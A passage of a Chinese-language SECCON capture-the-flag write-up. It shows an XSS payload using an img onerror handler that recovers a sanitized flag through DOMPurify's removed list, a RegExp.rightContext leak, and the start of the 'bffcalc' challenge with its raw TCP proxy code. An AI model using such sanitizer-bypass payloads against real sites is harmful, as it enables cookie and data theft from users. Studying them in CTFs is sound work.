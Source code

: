 ```
SECCON{REDACTED}"&gt;\nSECCON{REDACTED}<img src=1 onerror=alert(DOMPurify.removed[0].element.text)//">\n
```

这时候alert的内容就是之前sanitize掉的flag



#### 补充

看writeup stream的时候发现了这样一件事情，感觉有点神奇

```js
> DOMPurify.sanitize('<a><script><SECCON{dummy}').replace(/SECCON{.+}/g, 'SECCON{REDACTED}')
'<a></a>'
> RegExp.rightContext
'ECCON{dummy}'
```


<br>

## bffcalc

flag在cookie里，可以随便xss，但是cookie是http only的。

请求在到达后端前经过了一层代理，直接转发tcp包，主要逻辑为

```python
def proxy(req) -> str:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("backend", 3000))
    sock.settimeout(1)

    payload = ""
    method = req.method
    path = req.path_info
    if req.query_string:
        path += "?" + req.query_string
    payload += f"{method} {path} HTTP/1.1\r\n"
    for k, v in req.headers.items():
        payload += f"{k}: {v}\r\n"
    payload += "\r\n"

    sock.send(payload.encode())
    time.sleep(.3)
    try:
        data = sock.recv(4096)
        body = data.split(b"\r\n\r\n", 1)[1].decode()
    except (IndexError, TimeoutError) as e:
        print(e)
        body = str(e)
    return body
```

真正的后端通过kwargs.get获取参数
